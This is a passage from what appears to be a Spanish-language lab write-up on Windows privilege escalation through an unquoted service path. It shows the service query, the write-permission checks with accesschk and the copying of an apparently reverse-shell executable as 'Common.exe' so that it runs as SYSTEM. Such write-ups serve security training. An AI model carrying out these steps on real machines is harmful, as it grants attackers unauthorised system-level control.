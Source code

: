 ----

## Unquote Service Path

```
sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Comprobando permisos de escritura en los directorios

```
accesschk.exe -accepteula -uwqd "C:\Program Files\Unquoted Path Service\Common Files"
C:\Program Files\Unquoted Path Service\Common Files
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

accesschk.exe -accepteula -uwqd "C:\Program Files\Unquoted Path Service"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

accesschk.exe -accepteula -uwqd "C:\Program Files"
C:\Program Files
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

Copié el ejecutable reverse.exe y cambie el nombre a `Common.exe`

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.
```
